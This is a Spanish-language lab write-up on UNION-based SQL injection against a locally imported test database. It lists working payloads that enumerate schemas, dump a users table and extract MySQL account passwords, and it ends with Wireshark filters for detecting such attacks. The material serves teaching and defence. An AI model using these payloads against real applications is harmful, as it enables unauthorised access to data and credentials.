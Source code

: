 
## Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


## Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL -- -
  ' UNION SELECT NULL,NULL-- - 
  ' UNION SELECT NULL,NULL,NULL-- -
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


## Consulta que muestra todos los productos
![](capturas/sql-injection-lab1.png)

![](capturas/sql-injection-lab1-2.png)

![](capturas/sql-injection-lab1-3.png)

Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```

![](capturas/sql-injection-lab1-4.png)


## Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```
![](capturas/sql-injection-lab1-5.png)


## Datos de todas las bases de datos, tablas y columnas de MySQL
Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name =
information_Schema.columns.table_name;#
```
Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
![](capturas/sql-injection-lab1-6.png)


## Todas las bases de datos y sus tablas de MySQL
Inyección SQL →
```
999' UNION select null, table_schema,table_name FROM information_Schema.tables;#
```
Obtenemos resultados del nombre de la base de datos con la información de sus columnas→
![](capturas/sql-injection-lab1-7.png)

Vemos otra base de datos con la información de sus columnas dentro de mysql→
![](capturas/sql-injection-lab1-8.png)


## Todos las columnas de MySQL
Inyección SQL →
```
999' UNION select null, table_name, column_name FROM information_Schema.columns;#
```
Muestra el nombre de la tabla y todas sus columnas. Vemos en concreto los resultados en las tablas usuarios y artículos →
![](capturas/sql-injection-lab1-9.png)


## Mostrar todos los datos de la tabla "demos.usuarios"
```
999' UNION SELECT * from demos.usuarios #
```
![](capturas/sql-injection-lab1-10.png)


## Obtener las contraseñas de la BD
```
999' UNION ALL SELECT null, user,password FROM mysql.user;#
```
![](capturas/sql-injection-lab1-11.png)


## Consultar el tipo y la versión de la base de datos
```
999' UNION SELECT null, null, @@version #
```
![](capturas/sql-injection-lab1-12.png)


## Todas las tablas de una BD concreta
```
999' UNION SELECT null, null, TABLE_NAME FROM information_schema.tables WHERE table_schema = 'demos'#
```
![](capturas/sql-injection-lab1-13.png)


## Todos los campos de una tabla concreta
Consulta mysql que devuelve el nombre de las columnas de una tabla de la BD:
```
SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos'
```
Consulta para realizar la inyección:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
Inyección:
```
999' UNION SELECT null, TABLE_NAME, COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'articulos' #
```
![](capturas/sql-injection-lab1-14.png)


## Análisis del tráfico con Wireshark
## Filtrar Solicitudes HTTP con Posibles Inyecciones SQL 
Aplicamos un filtro en wireshark para descubir el ataque de sql injection:
```
http.request.uri contains "SELECT" || http.request.uri contains "UNION" || http.request.uri contains "DROP" || http.request.uri contains "OR '1'='1'"
```
![](capturas/sql-injection-lab1-15.png)


## Filtrar por Códigos de Estado HTTP Específicos
A menudo, una inyección SQL fallida resultará en códigos de estado de error HTTP, como 500 (Error Interno del Servidor). Puedes filtrar estos códigos de estado:
```
http.response.code == 500
```
Este filtro captura respuestas con el código de estado 500, lo que podría indicar un error en la ejecución de una consulta SQL, posiblemente debido a una inyección SQL.

## Filtering for Web Traffic
The expression http.request reveals URLs for HTTP requests, and tls.handshake.type eq 1 shows domain names used in HTTPS or SSL/TLS traffic.

For web traffic generated by Windows hosts, results from this filter include HTTP requests over UDP port 1900. This HTTP traffic is Simple Service Discovery Protocol (SSDP). SSDP is used to discover plug-and-play devices and is not associated with normal web traffic. We can exclude SSDP traffic in our results by modifying our filter expression to:
```
(http.request or tls.handshake.type eq 1) and !(ssdp)
```
![](capturas/sql-injection-lab1-17.png)
